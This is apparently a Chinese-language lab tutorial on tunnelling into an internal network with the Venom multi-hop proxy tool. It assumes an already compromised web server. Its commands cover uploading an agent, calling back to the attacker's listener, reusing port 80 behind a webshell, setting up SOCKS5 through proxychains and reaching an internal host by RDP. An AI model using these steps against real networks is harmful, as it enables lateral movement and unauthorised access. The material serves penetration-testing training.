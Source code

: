 




### 通过Venom进行隧道穿透
Venom工具也被称为“毒液工具”，它是一款开源的多级代理工具，使用Go语言开发，支持多种平台。Venom可以将多个节点进行连接，并以节点为跳板构建多级代理搭建网络隧道，渗透测试人员可以使用Venom轻松地将网络流量代理到多层内网管理代理节点，利用"毒液"进行可视化网络拓扑、多级Socks5代理、多级端口转发、端口复用（Apache、Mysql等服务）、SSH隧道、交互式Shell、文件的上传和下载、节点间通信加密等。<br />假设当我们拿下一台Web服务器通过提权获得到Administrator权限，对目标主机信息收集，进行搭建隧道便于后续渗透。此时利用venom工具进行搭建隧道，使用venom工具中Admin服务端进行本地监听，Agent作为客户端在目标主机发起连接。本次实验环境如图1-1所示，本次实验环境表如表1-1所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683888830-03de5ea6-de32-4580-a6f6-67e9f8f8924c.png#)<br />图1-1通过Venom进行隧道穿透实验拓扑图<br />表1-1 通过Venom进行隧道穿透实验环境表

| 主机类型 | IP配置 |
| --- | --- |
| 攻击机 | 192.168.0.58 |
| Web服务器 | 192.168.0.25，192.168.52.2 |
| 靶机 | 192.168.52.3 |


#### 1.基础使用
    Venom工具支持多款操作系统，它可以跨平台使用，主要是由Admin服务端和Agent客户端组成，作为本地监听连接和主动发起连接使用，下面从Venom工具的基础功能进行讲解，再以正向连接和反向连接为案例进行演示。
##### （1）反向监听
1）首先在攻击机配置，使用venom工具开启服务端监听，执行admin.exe -lport 8888命令，其中的-lport参数指的是监听本地端口，这里指监听本地8888端口，执行结果如图1-2所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683889032-ec8df517-1fa9-455e-9c8a-f28146b5ecff.png#)<br />图1-2 监听本地端口<br />   2）然后我们通过上传agent客户端到Web服务器，执行agent.exe -rhost 192.168.0.58 -rport 8888命令，让Web服务器主动发起连接攻击机开启的监听，建立起隧道通讯，执行成功如图1-3所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683889305-ff8f0585-e508-4b94-9505-71ee0f809178.png#)<br />图1-3 隧道通讯<br />   3）此时服务端会接收建立隧道信息，使用show命令可以显示网络拓扑，如图1-4所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683889594-5896a2c9-2f44-46b8-ad7c-855d377ab41c.png#)<br />图1-4 查看隧道信息
##### （2）正向监听
和上述使用场景类似，当拿下Web服务器权限后，通过探测发现Web服务器不出网，但能正常访问主机，可以使用venom工具以正向连接的方式搭建隧道进行渗透。<br />1）上传Agent文件到Web服务器，执行agent.exe -lport 8888命令开启客户端监听。如图1-5所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683889839-8be2a63b-3a05-41df-8e06-be0b40d89b37.png#)<br />图1-5开启目标主机监听<br />    2）然后在攻击机使用Admin服务端发起连接，执行admin.exe -rhost 192.168.0.25 -rport 8888建立隧道通讯，其中-rhost参数指向远程连接ip，-rport参数指连接的端口。如图1-6所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683890088-f2e2bf70-32cd-4194-a675-3669d097809e.png#)<br />图1-6建立隧道通讯<br />    3）接下来在攻击机使用show命令验证，可以看到隧道建立成功，如图1-7所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683890313-47f3bd95-ba0d-47df-b433-a0f7e3605f6e.png#)<br />图1-7隧道搭建成功
##### （3）端口复用
1）假设上传webshell后，Web服务器只有80端口的开放http服务可以利用，下面我们通过venom工具的SO_REUSEPORT"和"SO_REUSEADDR选项进行端口复用，Windows服务器下复用apache中间件的http服务80端口，不影响正常使用。<br />2）上传 agent文件到Web服务器，执行agent.exe -lhost 192.168.0.25 -reuse-port 80命令，设置80端口的复用，如图1-8所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683890522-d82fb747-0b13-4f2c-9b23-9bdb001457d1.png#)<br />图1-8上传agent<br />    3）在攻击机使用admin服务端执行admin.exe -rhost 192.168.0.25 -rport 80命令，来进行端口复用，如图1-9所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683890740-756806a4-5f01-4a76-8fe9-fc6c216a7e2d.png#)<br />图1-9 端口复用
##### （4）节点间通信加密
1）在节点通讯请求和响应的过程中，如果消息中途被劫持或篡改后果不堪设想，而我们的Venom工具支持隧道通信加密，对通讯数据进行加密保护，本地通过-passwd参数选项指定密码进行设置，密码用于生成AES加密所需的密钥，下面来演示通过-passwd参数指定密码为Admin123.，在攻击机使用venom工具服务端执行admin.exe -lport 8888 -passwd Admin123.命令，为隧道进行加密。如图1-10所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683890953-c8b96c3a-87f7-41a5-923a-7a60330813a2.png#)<br />图1-10隧道加密<br />    2）我们在Web服务器使用venom工具客户端agent文件，指定相同的密码与服务端admin连接，执行agent -rhost 192.168.0.58 -rport 8888 -passwd Admin123. 命令，执行成功即可达到隧道节点通讯加密的效果，如图1-11所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683891156-efa7174f-2dd1-4f60-95df-37d1d75e41ed.png#)<br />图1-11隧道节点通讯加密
#### 2.正向连接
正向连接实验环境如图1-12所示，假设前提是获取到Web服务器管理权限后，可以使用venom工具进行隧道利用，具体实验环境如表1-2所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683891437-15dc3141-cdfb-4d3f-9a83-900947d686df.png#)<br />图1-12 实验环境<br />表3-16正向连接实验环境

| 主机类型 | 网络配置 |
| --- | --- |
| 攻击机 | 192.168.0.58 |
| Web服务器 | 192.168.0.25   192.168.52.11 |
| 靶机 | 192.68.52.12 |

1）上传venom工具到Web服务器之后执行agent.exe -lport 8888命令，开启本地客户端监听，我们以正向连接的方式搭建隧道，执行成功如图1-13所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683891708-9d64b6c4-43e3-44c4-afe8-1f6234056534.png#)<br />图1-13 本地监听<br />    2）攻击机使用venom服务端执行./admin -rhost 192.168.0.25 -rport 8888命令进行连接，其中-rhost参数是指设置远程服务器的端口，此时会连接监听，输入show查看连接情况，如果有A---1，证明已经有客户端连接成功，执行如图1-14所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683891954-df9730c5-81bc-44bd-b498-66036db9fa8d.png#)<br />图1-14 连接成功<br />    3）接下来尝试连接socks隧道，输入goto 1命令连接这个客户端，再输入socks 1024设置socks隧道自定义端口，此时已经配置完成socks隧道，如图1-15所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683892219-eacd74da-3fe0-4d72-9dc4-f3502177c813.png#)<br />图1-15隧道搭建成功<br />  4）随后，在攻击机中修改proxychains4.conf配置文件，并在其底部添加一行socks5127.0.0.1 1024参数来完成 proxychains 代理配置，如图1-16所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683892438-185d2a0e-c1a9-4225-94a8-913e2fec94a2.png#)<br />图1-16配置socks5代理<br />    5）当配置完proxychains代理后，即可在攻击机执行proxychains rdesktop 192.168.52.12命令来连接靶机，如图1-17 所示，通过所建立的socks协议隧道，我们可以直接远程连接到靶机。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683892795-d783aa1e-8a16-4ae4-8f10-8c684d80d5e6.png#)<br />图1 -17连接靶机
#### 3.反向连接
1）反向连接方式和上述类似，适用于出网的情况，我们在攻击机开启监听服务端8888端口，执行./admin -lport 8888命令设置开启服务端监听，如图1-18所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683893313-434e15c2-04c8-4e59-8792-485d43be571b.png#)<br />图1-18 监听8888端口<br />2）完成后，我们上传客户端agent文件到Web服务器，在WEB 服务器执行agent.exe -rhost 192.168.0.58 -rport 8888，其中远程连接的IP 192.168.0.58，在实战中需要公网IP，成功连接如图1-19所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683893518-b61591c4-c39c-428d-ae11-6d28ac96ff39.png#)<br />图1-19成功连接<br />   3）此时已经是搭建好了隧道，输入show查看连接情况，有回显A---1，使用goto 1去连接客户端，使用socks 1024 来搭建socks隧道，执行命令如图1-20所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683893831-873bb910-ec0e-46f3-b519-28e05bf21e9a.png#)<br />图1-20搭建socks隧道<br />    4）随后，在攻击机中修改 proxychains4.conf配置文件，并在其底部添加一行socks5127.0.0.1 1024参数来完成proxychains代理配置，如图1-21所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683894134-c5bcf945-2c76-4816-92c9-9011933370c5.png#)<br />图1-21配置socks5代理<br />    5）当配置完proxychains代理后，即可在攻击机执行proxychains rdesktop 192.168.52.12命令来连接靶机，如图1-22所示，通过所建立的socks协议隧道，我们可以直接远程连接到靶机。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683894479-53538ca2-9557-4932-b697-abb2f4789904.png#)<br />图1-22 连接靶机


